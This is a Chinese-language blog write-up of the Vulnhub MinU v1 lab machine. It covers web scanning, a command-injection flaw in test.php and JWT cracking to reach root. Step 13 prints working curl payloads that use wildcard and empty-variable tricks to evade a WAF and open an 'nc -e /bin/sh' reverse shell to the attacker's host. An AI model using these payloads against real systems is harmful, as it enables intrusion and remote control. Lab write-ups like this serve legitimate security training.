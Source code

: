 ```yaml
---
layout: post
title: Vulnhub-MinUV1-writeup
description: >
  这是vulnhub上靶机MinUV1的writeup
tags: [技术]
author: author1
accent_image:          /assets/img/sidebar-bg.jpg
accent_color:          '#4fb1ba'
---
```


# MinUV1的writeup


### 靶机相关链接
  + 靶机介绍：["靶机介绍主页"](https://www.vulnhub.com/entry/minu-1,235/)
  + 下载链接1:["靶机下载(Goole云盘)"](https://drive.google.com/open?id=1n_zpZ4M8wpEl5U_o5455MAiuwhCzStlh)
  + 下载链接2：["靶机下载(镜像)"](https://download.vulnhub.com/minu/MinUv1.ova.7z)
  + 下载链接3：["靶机下载(Torrent)"](https://download.vulnhub.com/minu/MinUv1.ova.7z.torrent)
  + 下载靶机后，通过Virtualbox导入虚拟机即可使用
### 测试过程
1. 下载靶机后，使用Virtualbox导入后开机直接获得IP，省掉了主机存活发现的环节
  ![Full-width image](/assets/img/docs/MlnUV1/1.png)
2. 拿到后直接使用nmap进行扫描看开起来那些服务，扫描仅发现了80端口,(一般先进行常规端口扫描，全端口在有必要的情况下可在对web或者其他常见服务进行测试时进行扫描，可有效节省时间)
    ![Full-width image](/assets/img/docs/MlnUV1/2.png)
3. 访问80端口发现是Apache默认页面，大致查看过后并无其他发现，用dirb或者wfuzz(wfuzz的使用教程有一个老哥介绍很清楚可以去看下一下，['此处为传送门'](https://www.freebuf.com/author/m0nst3r)进行一下目录扫描
    ![Full-width image](/assets/img/docs/MlnUV1/3.png)
    ![Full-width image](/assets/img/docs/MlnUV1/4.png)
4. 两者均发现了test.php,按照惯例进行访问并哪里不会点哪里；点的时候要注意地址栏的变化；惯例进行源码的查看，发现这个链接有存在文件包含漏洞的嫌疑
    ![Full-width image](/assets/img/docs/MlnUV1/5.png)
    ![Full-width image](/assets/img/docs/MlnUV1/6.png)
5. 依旧用wfuzz试一下，通过wfuzz可以省去很多手工上的繁琐，偷偷懒
    ![Full-width image](/assets/img/docs/MlnUV1/7.png)
6. 通过wfuzz的结果可以看到存在大量的字符数为1986的页面，尝试访问一个发现非常正常，于是可以通过--hh将字符数为1986的排除掉，这样结果更加精简了
    ![Full-width image](/assets/img/docs/MlnUV1/8.png)
    ![Full-width image](/assets/img/docs/MlnUV1/9.png)
    ![Full-width image](/assets/img/docs/MlnUV1/10.png)
7. 通过对剩下几个payload进行访问，发现并非文件包含漏洞，而是命令执行漏洞
    ![Full-width image](/assets/img/docs/MlnUV1/11.png)
    ![Full-width image](/assets/img/docs/MlnUV1/12.png)
8. 经过尝试发现很多命令执行不了，可以判断该处漏洞应该存在过滤手段
    ![Full-width image](/assets/img/docs/MlnUV1/13.png)
9. 在测试过程中发现rev命令是可用的，rev命令可以实现字符的反序输出，可以通过rev来读源码    
>
  **NOTE**:rev命令 将文件中的每行内容以字符为单位反序输出，即第一个字符最后输出，最后一个字符最先输出，依次类推
    ![Full-width image](/assets/img/docs/MlnUV1/14.png)

10. 尝试通过rev命令来读取test.php的内容
    ![Full-width image](/assets/img/docs/MlnUV1/15.png)
11. 由于反序输出不便阅读，可以在terminal中通过管道符进行再次反序然后即可得到正序的文件内容
    ![Full-width image](/assets/img/docs/MlnUV1/16.png)
12. 可以看到test.php中执行的命令是shell_exec('cat'.GET['file'])，获取file参数然后cat出来，既然知道文件内容了就可以进行payload的构造，在payload的构造中有很多种方法，但是需要不断的尝试有哪些限制字符。对参数进行fuzz一下看哪些是可用的(此处需要自己构造字典，想好要执行那些命令，然后分别用不同的方式表示出来形成字典再fuzz)
    ![Full-width image](/assets/img/docs/MlnUV1/17.png)
13. 根据fuzz的结果得出部分可用字符，通过这些字符可以组合payload，此处列举三个：(其中20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK为nc -e /bin/sh 192.168.145.1 4444的base64编码)，可自行发散思路测试多种命令，组合出多种payload
```shellcode
curl -s "http://192.168.145.5/test.php?file=%26/bin$u/echo$u%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/usr$u/bin$u/base64$u%20-d|/bin$u/sh$u"
curl -s 'http://192.168.145.5/test.php?file=%26/bin/ech?%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/u?r/b?n/b?se64%20-d|/b?n/sh'
curl -s 'http://192.168.145.5/test.php?file=%26/b?n/nc$u%20-e%20/b?n/sh$u%20192.168.145.1%204444'
```
  此处主要利用到了两个知识点：1是linux下所有皆文件，因此各种可执行程序都是在可找到的文件，而在找文件的过程中是可以利用通配符的，可以利用该特性对过滤进行绕过，另一点就是使用空变量$u，linux中是可以存在空变量的，直接被系统视为空字符串，空变量不会对输出造成影响，可以借此来绕过基于正则表达式的过滤器和模式匹配此处参见['secist'](https://www.freebuf.com/author/secist)大佬['绕过CloudFlare WAF和ModSecurity OWASP CRS3核心规则集的技巧介绍'](https://www.freebuf.com/articles/web/184414.html)的文章

14. 现在可以getshell了，先监听端口4444(（由于我的网络是靶机为仅host模式，而kali为nat模式通过将物理机的4444网卡映射到了kali上，所以此处看到的是来自10.0.2.2的连接，这不是重点）)
    ![Full-width image](/assets/img/docs/MlnUV1/18.png)
15. 此时拿到的只是shell,并非tty:使用SHELL=/bin/bash script -q /dev/null可以将shell提升成tty,找一下有没有可以直接拿来提权的程序，可惜在我的知识中这些都好像没有，泪奔.....
    ![Full-width image](/assets/img/docs/MlnUV1/19.png)
16. 看一下Linux内核版本，看是否有可利用的漏洞，找到可用的然后gcc编译一下
    ![Full-width image](/assets/img/docs/MlnUV1/20.png)    
    ![Full-width image](/assets/img/docs/MlnUV1/21.png)
    ![Full-width image](/assets/img/docs/MlnUV1/22.png)  
17. EXP准备就绪后开始准备上传，先在本机用python搭个简易的web服务器，然后找一个可写文件夹，尝试下载下来
    ![Full-width image](/assets/img/docs/MlnUV1/23.png)
    ![Full-width image](/assets/img/docs/MlnUV1/24.png)
    ![Full-width image](/assets/img/docs/MlnUV1/25.png)    
18. 很尴尬的是发现下载下来大小为0，查看一下磁盘发现磁盘满了。不知道这是作者有意的还是我的环境有问题.....所以通过这种方式提权看来要拉闸了
    ![Full-width image](/assets/img/docs/MlnUV1/26.png)
19. 在系统瞎逛逛，发现了home目录下bob的文件夹有隐藏文件(一般home目录下的要重点关注)，查看一下发现存在一个__pw__的文件，里面写的东西我也看不懂，直觉告诉我这很重要。于是找了国外大佬的文章看解析。发现是['Json web tokens'](http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    ![Full-width image](/assets/img/docs/MlnUV1/27.png)
20. 尝试使用['jwtrack'](https://github.com/brendan-rius/c-jwt-cracker)进行破解,破解成功。得到密钥是mlnV1
    ![Full-width image](/assets/img/docs/MlnUV1/28.png)
21. 尝试登陆，发现登陆root成功，并且在root文件夹下发现flag文件，cat一下
    ![Full-width image](/assets/img/docs/MlnUV1/29.png)
>
**附上两位大佬解析的地址**:
+ https://medium.com/@honze_net/vulnhub-minu-1-write-up-8032fdda5939
+ https://hackso.me/minu-1-walkthrough/
